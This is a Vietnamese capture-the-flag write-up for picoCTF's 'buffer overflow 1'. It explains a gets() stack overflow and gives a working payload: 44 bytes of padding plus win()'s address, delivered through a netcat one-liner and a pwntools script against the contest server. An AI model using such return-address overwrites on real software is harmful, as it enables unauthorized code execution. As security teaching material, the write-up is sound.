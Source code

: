 # buffer overflow 1

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

b) Nhận xét

- Chúng ta có thể dễ dàng thấy lỗi nằm ở hàm gets, hàm này không kiểm tra số lượng ký tự nhập vào dẫn đến lỗi tràn bộ đệm

## 2. Ý tưởng khai thác

- Chỉ khi chạy hàm win thì flag mới được in ra, vậy chúng ta phải gọi được hàm win. Ở đây hàm win không được gọi đến nhưng chúng ta có thể gọi đến nó bằng cách ghi đè địa chỉ trở về (return address) vào thanh ghi EIP
- Thanh ghi EIP (trong kiến trúc 16 bit gọi là thanh ghi IP, trong kiến trúc 32 bit gọi là EIP, trong kiến trúc 64 bit gọi là RIP) là thanh ghi con trỏ lệnh, nó dùng để lưu địa chỉ của câu lệnh tiếp theo được thực hiện.
- Mỗi khi chương trình chạy thì hệ điều hành sẽ cung cấp cho chương trình một vùng nhớ trên RAM dùng để lưu trữ các biến nội bộ, các giá trị trở về (giá trị của EIP), giá trị các thanh ghi,… gọi là vùng nhớ stack. Ở bài này, mô hình stack (tại hàm vuln) trông như sau:

![image.png](image.png)

- Stack ghi từ địa chỉ thấp lên địa chỉ cao (ở đây là từ dưới lên trên) nên ta sẽ ghi 32 ký tự để ghi đè biến buf + 4 ký tự ghi đè EBP. 36 ký tự này gọi là padding. Sau đó ta cần ghi đè địa chỉ của return address bằng địa chỉ của hàm win
- Trên lý thuyết là vậy nhưng thật ra padding sẽ khác (do sự căn chỉnh stack, do compiler hoặc do người ra đề cố tình sửa padding stack) vì vậy thay vì tính bằng tay thì ta nên dùng công cụ. Ở đây mình dùng https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html


## 3. Tiến hành khai thác

1. Bước 1: Tìm padding bằng công cụ 
- Đầu tiên ta mở chương trình bằng GDB

![image.png](image%202.png)

- Generate ra 100 ký tự rồi chạy trong GDB bằng câu lệnh

```cpp
run < <(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
```

![image.png](image%203.png)

- Quan sát stack ta thấy EIP ghi “4Ab5”, ta check trên công cụ thì thấy offset là 44, vậy khoảng cách từ biến buf đến thanh ghi EIP thực chất phải là 44 chứ không phải là 36 như ta đã tính tay

![image.png](image%204.png)

b) Bước 2: Tìm địa chỉ của hàm win

- Dùng câu lệnh “info functions” để xem địa chỉ các hàm:

![image.png](image%205.png)

- Ở đây ta tìm được địa chỉ của hàm win là 0x080491f6. Theo kiến trúc little-edian thì địa chỉ đó sẽ được ghi trong stack là \xf6\x91\x04\x08
- Vậy payload cần dùng là: 44 ký tự padding +  “\xf6\x91\x04\x08”

c) Bước 3: Viết payload

- Chúng ta có 2 cách để truyền payload bao gồm truyền bằng ống (pipe) và truyền bằng file thực thi
- Cách 1: truyền bằng pipe:
+ Payload:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08
+ Câu lệnh truyền payload bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08"; cat) | nc saturn.picoctf.net 63395
```

![image.png](image%206.png)

- Cách 2: dùng file thực thi
+ Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('saturn.picoctf.net', 63395)
payload = b'a'*44 + p32(0x080491f6)

p.sendline(payload)
p.interactive()
```

![image.png](image%207.png)

## 4. Kết luận

- Ta chỉ nên vẽ stack để tham khảo, không nên tính padding bằng stack mà nên dùng tool
- Phương pháp chúng ta vừa dùng được gọi là kỹ thuật quay về phân vùng .text (return to .text). Một tập tin thực thi theo định dạng ELF có nhiều phân vùng. Phân vùng .text là phân vùng chứa tất cả các mã lệnh đã được trình biên dịch tạo ra, và sẽ được bộ vi xử lý thực thi. Kỹ thuật này khá quan trọng vì đôi khi mã lệnh mà chúng ta cần thực thi đã có sẵn trong chương trình nên chúng ta chỉ cần tìm ra địa chỉ các mã lệnh đó là đã có thể thực hiện thành công việc tận dụng lỗi
